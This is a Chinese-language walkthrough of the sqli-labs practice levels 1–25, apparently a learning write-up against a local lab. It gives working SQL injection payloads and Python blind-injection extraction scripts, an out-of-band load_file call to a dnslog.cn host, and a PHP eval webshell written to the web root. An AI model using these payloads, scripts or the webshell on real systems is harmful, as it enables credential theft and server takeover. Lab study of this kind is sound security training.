## Less-1（'单引号闭合字符型）

1.判断是否存在注入，注入的类型（数字，字符等），猜测后端语句闭合方式，初步在心里形成简单绕过思路

```java
?id=1' 
?id=1" 
?id=1') 
?id=1") 
?id=1' or 1#
?id=1' or 0#
?id=1' or 1=1#
?id=1' and 1=2#
?id=1' and sleep(5)#
?id=1' and 1=2 or ' 
?id=1\
```

2.探测闭合方式为单引号闭合**?id=x' 触发异常，注释方式--+ 或者%23（#）注释。**

3.fuzz情况：无异常

因此二分法开始探测回显位（位置，字段数量）：

```sql
?id=1' order by 3%23时回显正常   order by 4%23时回显出错，说明联合查询位数为3
?id=-1' union select 1,2,3%23    ##回显位在2，3
?id=-1' union select 1,database(),@@version   #探测当前数据库名（security），版本(5.5.53)
?id=-1' union select 1,2,group_concat(0x7e,table_name,0x7e) from information_schema.tables where table_schema='security'%23
#查到表：~emails~,~referers~,~uagents~,~users~
?id=-1' union select 1,2,group_concat(0x7e,column_name,0x7e) from information_schema.columns where table_name='users'%23
#查到 users表中有如下字段： ~id~,~username~,~password~,~level~,~id~,~username~,~password~
?id=-1' union select 1,group_concat(0x7e,username,0x7e),group_concat(0x7e,password,0x7e) from users%23
#获取到用户名与密码，注入完成。
```

## Less-2（无闭合字符型）

探测为无闭合的数字型注入点，因此直接构造获取数据即可

```sql
?id=-1 union select 1,group_concat(0x7e,username,0x7e),group_concat(0x7e,password,0x7e) from users%23
```

## Less-3（')单引号+括号闭合字符型）

```sql
?id=-1') union select 1,group_concat(0x7e,username,0x7e),group_concat(0x7e,password,0x7e) from users%23
```

## Less-4（")双引号+括号闭合字符型）

```sql
?id=-1") union select 1,group_concat(0x7e,username,0x7e),group_concat(0x7e,password,0x7e) from users where id =15%23
```

## Less-5  (报错注入，bool盲注)

报错注入简单不提，这里写一个bool盲注脚本提取flag:


```python
import requests
url = "http://127.0.0.1/sqli-labs/Less-5/?id=1'"

cookies = {       # 如果目标网站要事先登录，就加上cookies
    "PHPSESSID":"xxxxxxxxx"
}
flag = ''
for i in range(1,49):
    low = 32
    high = 128
    mid = (low+high)//2
    while(low<high):
        #payload1 = url + " and ascii(substr(database(),{},1))>{}%23".format(i, mid)
        #payload2 = url + " and ascii(substr((select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))>{}%23".format(i, mid)
        #payload3 = url + " and ascii(substr((select 1,2,group_concat(column_name) from information_schema.columns where table_name=users),{},1))>{}%23".format(i, mid)
        payload4 = url + " and ascii(substr((select group_concat(username,password) from users where id = 15),{},1))>{}%23".format(i, mid)
        res = requests.get(url=payload4)

        if 'You are in' in res.text:      # 为真时，即判断正确的时候的条件
            low = mid+1
        else:
            high = mid
        mid = (low+high)//2
    if(mid == 32 or mid == 127):
        break
    flag = flag+chr(mid)
    print(flag)
```

## Less-6   ("双引号闭合bool盲注、报错注入)

**报错注入payload：**

```python
?id=1" and updatexml(1,concat(0x7e,(select user()),0x7e),1)%23
```

盲注脚本如上

## Less-7   (‘））单引号双重括号闭合,bool盲注、into_outfie写文件)

**先了解几个函数**

```sql
load_file()函数    是MySQL读取本地文件的函数（读取）
into outfile()函数  是用来导出文件的（写入）
@@basedir函数  查询当前路径
@@datadir函数  查询数据库安装路径
```

1、首先判断注入点

猜到最后，注入点是字符型，单引号加两个小括号，?id=1’)) – -

因为它只有正常显示和不正常显示两种状态，并且也没有MySQL的报错信息。正常来说，这里可以使用盲注，但是它页面上提示的有“Use outfile…”，既然它提示了，那么就说明它开了读写权限。所以这一关就用SQL注入读写文件来试一下

2、判断文件路径

可以利用读文件函数load_file()，结合dnslog.cn网站，实现带外攻击，看到MySQL的安装目录在哪。

先说一下MySQL的load_file()函数。这个函数里面写上文件的路径，就可以实现读取文件内容的操作。不过它只能读取文件，不能读取目录。所以load_file()函数里面一定要写“路径+文件名”，才会有回显。不然就会报错。另外，读本地文件的话，只要写上本地文件的路径就行，绝对路径和相对路径都行。读网络文件的话，要用"\\+域名\+文件名"的写法。前面写上四个\是为了转义，最终的效果是：\域名\文件名

接下来，先在dnslog网站上获取一个随机域名。

接下来，构造语句：?id=1’)) and load_file(concat(’\\’,(substr(hex(@@basedir),1,30)),’.r8luxv.dnslog.cn\1.txt’)) – -，并执行。这个语句中间用了hex()函数，把@@basedir加密。为了避免URL中显示不出某些特殊符号，并且了使用substr()字符串截取函数，因为URL的长度是有限制的。虽然执行完之后页面会报错，但是不影响结果，可以看到dnslog网站上已经出现了一串字符

接下来，只需要继续截取，就能获取到完整的路径了



把得到的路径拼接起来



然后再使用十六进制解码，得到路径



3、开始写文件

根据上一步，可以看出来这个网站的搭建环境是一个phpstudy的集成环境，那么它的网站根目录是D:\phpStudy\PHPTutorial\WWW\。知道了网站根目录，接下来，利用outfile()写函数，往网站根目录里写入一句话木马文件。

构造语句：?id=-1’)) union select ‘’,’’,’<?php @eval($_REQUEST[666]) ?>’ into dumpfile ‘D:\phpStudy\PHPTutorial\WWW\1.php’ – -

至于语句为什么这么构造，最前面的id=-1是因为union select在into dumpfile()的时候，会把前面的查询结果也一块写入到文件中，像这样：1DumbDumb<?php @eval($_REQUEST[666]) ?>。如果让前面的id=-1，这样前面的select就查询不到结果了，那么写入到文件中的就会如我们所愿了；其次，union select后面还有两个空的单引号，是因为这里查询了三列。union select如果不查询三列的话，就会出错。所以多加了两个空的单引号。

再来到网站目录下，看到我们上传的一句话木马文件已经在了。



4、使用菜刀连接



## Less-8('单引号闭合bool盲注)

## Less-9   ('单引号闭合,时间盲注)

发现无论输入什么，页面始终都是一样的输出，也没有报错什么的，于是尝试测试时间函数来判断闭合：

```python
?id=1 and sleep(5)--+正常
?id=1' and sleep(5)--+延迟五秒
?id=1" and sleep(5)--+正常
?id=1) and sleep(5)--+正常
```

**因此断定为单引号闭合，可以进行时间盲注**

**脚本如下：**

```python
import requests
import json
import time

url = "http://127.0.0.1/sqli-labs/Less-8/?id=1'"
flag = ''
for i in range(1,250):
   low = 32
   high = 128
   mid = (low+high)//2
   while(low<high):

       payload = url+" and if((ascii(substr(database(),{0},1))>{1}),sleep(5),1)-- ".format(i,mid)

       times = time.time()
       try:
            requests.get(url=payload,timeout=3)  # 设置请求延时时限，上面休眠5秒，因此这里设置时限3秒，超时就丢弃，不等它跑完，提速
       except:
            low = mid+1
       #if time.time() - times >= 2:      # 为真时，即判断正确的时候的条件
          # low = mid+1
       else:
           high = mid
       mid = (low+high)//2
   if(mid ==32 or mid ==127):
       break
   flag = flag+chr(mid)
   print(flag)
```

## Less-10   ("双引号闭合,时间盲注)

同上，只把单引号换成双引号即可。


## Less-11   ('单引号闭合,post型union联合查询)

post:   password=admin&uname=-1' union select flag from flag%23


## Less-12   (")双引号括号闭合,post型union联合查询/报错注入)

1. post传参：  passwd=admin&uname=admin   登陆成功
2. passwd=admin&uname=admin' 登陆失败，无显示
3. passwd=admin&uname=admin" 出现报错，**从中确定闭合方式为：")**


1. 因此构造闭合测试：
2. passwd=admin&uname=admin")#  成功登录,说明构造成功，且后台其实连密码都没有检验（。。。。）
3. fuzz测试，发现没有任何waf
4. 因此直接进行union联合查询即可，也可以进行报错注入如下：
5. passwd=admin&uname=-1") union select @@version，database()%23


1. passwd=admin&uname=-1") or updatexml(1,concat(0x7e,(select flag from flag),0x7e),1)%23
2. passwd=admin&uname=-1") and (extractvalue(1,concat(0x7e,(select user()),0x7e)))#


过关。

## Less-13   (')单引号括号闭合，报错注入，post型时间盲注)

随意测试发现：

passwd=admin&uname=admin   //登陆正常

passwd=admin&uname=admin'    //失败


再测试：

passwd=admin&uname=admin')//失败并报错如下：


因此可以确定后台语句如下：

```sql
select * from users where username=('admin') and password=('admin') limit 0,1;
```

因此构造闭合如下：

```sql
passwd=admin&uname=admin')#
passwd=admin&uname=admin') and 1=1# 登陆成功
passwd=admin&uname=admin') and 1=2#登录失败
```

可以断定，后台并没有进行密码的校验，但登陆成功只显示登陆成功，没有报错，没有其他回显，因此放弃union联合查询以及报错注入，因此可以尝试bool盲注、时间盲注等，直接开始获取数据即可。

 **用extractvalue和updatexml都成功报错，但是用floor就不能显示信息，还没找到原因**

## Less-14   ("双引号闭合，报错注入)

```sql
1" and extractvalue(1,concat(0x23,(select group_concat(username) from users))) #
```

## Less-15   ('单引号闭合，post时间/bool盲注)

先判断闭合方式：

输入：

```sql
/   失败且无回显   报错注入舍弃
1   失败且无回显
1' 失败且无回显
1'# 失败且无回显
1" 失败且无回显
1"# 失败且无回显
1')# 失败且无回显
1")# 失败且无回显
1' or 1=1# 成功     
1" or 1=1# 失败   bool盲注可行
因此断定：闭合方式为：
password='passwd' 单引号闭合
```

bool盲注，脚本跑一下即可：

```sql
import requests

url = "http://127.0.0.1/sqli-labs/Less-15/"
flag = ''
# 初始数据为空

for i in range(1, 49):
    low = 28
    high = 128
    mid = (high+low)//2
    while low < high:
        payload = "1' or ascii(substr((select database()),{},1))>{}#".format(i, mid)
        datas = {"passwd":'admin' ,'uname': payload,"submit": "Submit"}
        res = requests.post(url=url, data=datas)
        if 'flag.jpg' in res.text:
            low = mid+1
        else:
            high = mid
        mid = (low+high)//2
    if mid == 28 or mid == 128:
        break
    flag = flag+chr(mid)
    print(flag)
```

## Less-16   (“）双引号括号闭合，post时间/bool盲注)

脚本基本一致，修改引号即可。

## Less-17   （单引号闭合update报错注入）


```sql
passwd=admin&uname=admin   正常,显示修改密码成功
passwd=admin&uname=/        错误， 显示hack滚开
passwd=admin&uname=a       (一个字母a，不可能非法，但也如此显示)错误， 显示hack滚开
passwd=admin&uname=admin'    错误， 显示hack滚开
passwd=admin&uname=admin%23   错误， 显示hack滚开
passwd=admin&uname=admin or 1=1%23
passwd=admin&uname=admin' or '1'='1'%23
passwd=admin&uname=admin'%23  错误， 显示hack滚开
由上说明此处是密码修改处，用户名必须正确且存在，否则(有非法字符或者用户名错误或者其他错误)都统一输出错误
因此转移测试点到passwd:
uname=admin&passwd=/   修改成功
uname=admin&passwd=a'   报错如下图一   推断此处为注入点，且为单引号闭合
uname=admin&passwd=a'%23  修改成功 构成闭合
推测后台语句为：
update xxxx set password='passwd' where username='uname'
因为此处passwd前的关键词不是where，且回显只有报错或者语句报错或者成功，所以这里放弃union
联合查询、bool盲注、time盲注，采用显错注入
uname=admin&passwd=a' and|or updatexml(1,concat(0x7e,(select group_concat(flag) from flag)),1)#
得到flag如下图2
```


## Less-18   （单引号闭合UA报错注入）

```sql
1' or extractvalue(1,concat(0x7e,(database()),0x7e)))#
```

## Less-19   （')单引号括号闭合Referer insert报错注入）

```sql
一通胡乱测试，发现username和password处都没有任何变化，输入只要不正确统统输出登陆失败，还有IP,
只有输入正确的用户密码才登陆成功，并有了变化，显示出ip与Reffer
```


猜测referer处与后端数据库存在交互，进行注入探测：

```sql
hackbar添加头部Referer: a'   报错  存在注入
```



```sql
再次探测：a'#还是报错如下：
说明#号注释起了作用
猜测后台交互语句为：
insert into xxx表 (`referer`,`ip`) values ('Referer','ip');
构造闭合：a','b')#  果然不再报错
```





探测如上，开始注入：

```sql
foo','(select username from users where id=@@version)')# 
```

无回显，试试报错注入：

```sql
1' or updatexml(1,concat(0x7e,(select group_concat(flag) from flag)),1))#
1' or extractvalue(1,concat(0x7e,(database()),0x7e))#
```


## Less-20   （')单引号闭合cookie注入）



payload: 

```sql
cookie: uname=-admin' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#
```

## Less-21   （')单引号闭合base64加密处理的cookie注入）

同样的一番测试之后，用户名和密码基本无特别情况，不存在注入，这时用正确账号密码登录，发现**特别之处：**



发现cookie处输出被加密，字符加末尾等号，猜测可能是Base64，解码一下试试：



解码结果为：admin，果然，猜测正确，那么我们把上一关的payload Base64加密一下试试：



未成功输出，应该是闭合方式不对，进行尝试：



单引号闭合开始报错，从回显发现闭合方式为：**单引号括号')    并且未做waf处理，各种注入都可以**

**由此直接利用上一关payload：**

**Cookie: uname=**-admin') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#

**Cookie:uname=**LWFkbWluJykgdW5pb24gc2VsZWN0IDEsMixncm91cF9jb25jYXQodGFibGVfbmFtZSkgZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEudGFibGVzIHdoZXJlIHRhYmxlX3NjaGVtYT1kYXRhYmFzZSgpIw==

得到数据：



## Less-22   （双引号闭合base64加密处理的cookie注入）

**闭合方式改为双引号**，其他与21关一样

```sql
cookie: uname=LWFkbWluIiB1bmlvbiBzZWxlY3QgMSwyLGRhdGFiYXNlKCkj
```


## Less-23   （过滤注释的GET传参注入）

又回到了GET方式提交id参数，有什么新花样?


进行尝试：?id=1 正常     ?id=1'   返回报错   ?id=1'"返回报错





从返回获得闭合方式：参数值单引号（'）闭合，继续构造闭合探测：

```sql
?id=1' or 1=1#
?id=1' or 1=2#
?id=1' and 1=1#
?id=1' and 1=2#  统一都返回报错如下：
You have an error in your SQL syntax; check the manual that corresponds to
your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1
更换#为%23或者-- 尝试，仍然如此，因此猜测后台对注释符进行了过滤
```

因此更换策略，直接构造，使其前后闭合，尝试：()

```sql
?id=1'' 成功
?id=1' and 1=1 and '1 成功
?id=1' and 1=2 and '1  失败 
```

**证明构造有效，用两个单引号闭合前后单引号，中间插入语句，可以进入sql执行逻辑**

开始注入：**(注意： 这里用单引号进行了前后的闭合，order by未处于查询语句最后，将失去检测效果)**

**不过有替代办法：我们知道，union联合查询只有在前后查询语句的对象数量一致时才会成功执行，因此我们可以利用这一原理对数据位数进行爆破：**

```sql
?id=-1' union select 1'   报错回显：The used SELECT statements have a different number of columns
继续：
?id=-1' union select 1,2'报错
?id=-1' union select 1,2,3'  成功
?id=-1' union select 1,2,3,4' 报错
因此得到位数为四，同时得到回显位为：2和3
```



查询数据即可：

?id=-1' union select  1,@@version,database()  '

?id=-1' union select 1,(select group_concat(0x7e,flag) from flag), 3'

或者结合xpath报错:

?id=-1' union select 1,2, (updatexml(1,concat(0x7e,(select user()),0x7e),1))'

?id=-1' union select(updatexml(1,concat(0x7e,(@@basedir),0x7e),1))'

?id=-1' union select(extractvalue(1,concat(0x7e,user(),0x7e)))'


过关。


## Less-24   Second Degree Injections *Real treat* -Store Injections (二次注入)

没什么好说的，常规的二次注入

## Less-25   Trick with OR & AND (单次过滤or和and的单引号闭合注入)

绕过思路：

​    **1. 大小写变形：Or,OR,oR**

